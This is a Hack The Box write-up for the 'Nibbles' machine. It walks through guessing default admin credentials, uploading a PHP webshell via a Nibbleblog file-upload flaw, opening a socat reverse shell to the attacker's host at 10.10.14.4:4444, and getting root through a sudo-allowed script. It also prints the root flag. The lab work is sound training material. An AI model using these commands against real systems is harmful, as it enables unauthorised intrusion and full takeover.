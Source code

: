 ```yaml
---
layout: single
title: Nibbles Writeup
date: '2019-12-18 17:10:00'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2019/2019-12-18-nibbles-writeup/nibbles.png
    text: "https://app.hackthebox.eu/machines/121"
typora-copy-images-to: ../../images/posts/2019/${filename}/
---
```


Another easy box, though slightly more involved than some others.…

## Enumeration

The usual Autorecon enumeration turned up ports 80 & 22 open. Taking a look at the webserver running on port 80 revealed a Hello World page but looking at the source showed an interesting comment:

![Screenshot-from-2019-12-18-10-53-06](../../images/posts/2019/2019-12-18-nibbles-writeup/Screenshot-from-2019-12-18-10-53-06-8419180.png)

Going to /nibbleblog we can see that it's running an instance of the [Nibbleblog](http://www.nibbleblog.com/) software.

A search on ExploitDB lists an file upload [vulnerability](https://www.exploit-db.com/exploits/38489) but we need a username and password. I spent a while hunting around before trying `admin/nibbles` which worked. I'm not a big fan of password guessing like this, but I guess it is realistic!

## Initial Exploitation

Following the PoC [here](http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html) I first grabbed a PHP Webshell. I choose [php33r](https://www.fuzzysecurity.com/scripts/16.html) as I hadn't used it before and it looked pretty neat.

I uploaded the file as detailed and then visited the location and I indeed had a webshell on the server:

![Screenshot-from-2019-12-18-11-02-14](../../images/posts/2019/2019-12-18-nibbles-writeup/Screenshot-from-2019-12-18-11-02-14.png)

I had a quick look around and it turned out to be easy to grab user.txt

![Screenshot-from-2019-12-18-11-04-19](../../images/posts/2019/2019-12-18-nibbles-writeup/Screenshot-from-2019-12-18-11-04-19.png)

## Privilege Escalation

I noticed the `personal.zip` file in the home directory so I copied this to a location that was accessible from the web and downloaded it to my Kali box. Extracting it revealed the following structure, and monitor.sh seemed to be a system monitoring script, which wasn't a lot of use at the moment.
```bash
    personal
    └── stuff
        └── monitor.sh
    
    1 directory, 1 file
```

At this point I decided I wanted a proper shell rather than having to interact with the webshell. The webshell had the ability to upload files, so I uploaded my local copy of `socat` and did a `chmod u+x socat` at the remote end to make it exectuable.

I ran the listener on my Kali box with:
```bash
    socat file:`tty`,raw,echo=0 tcp-listen:4444  
```
and then used the webshell to run
```bash
    ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.4:4444  
```
This allowed me to catch a full tty enabled shell.

At this point I tried `sudo -l` but this seemed to hang. I went on and tried other things, before just being more patient and actually getting a response as a lookup for the box name was timing out.

This revealed that the nibbler account could run `/home/nibbler/personal/stuff/monitor.sh` as root with no password. Creating a quick script with `/bin/bash -i` in it and then running with `sudo /home/nibbler/personal/stuff/monitor.sh` we get a root shell and can grab the flag `b6d745c0dfb6457c55591efc898ef88c`
